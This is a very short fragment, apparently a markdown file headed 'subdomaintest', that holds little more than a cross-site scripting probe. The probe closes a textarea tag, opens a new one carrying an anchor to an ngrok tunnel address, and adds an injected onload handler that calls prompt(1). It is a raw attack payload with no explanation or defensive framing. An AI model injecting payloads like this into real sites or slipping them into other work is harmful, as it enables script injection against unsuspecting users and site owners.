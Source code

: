 # subdomaintest.
</textarea><textarea <a href='https://fdfb-117-199-162-219.ngrok-free.app' ONxss ONLOAD=prompt(1)>
>
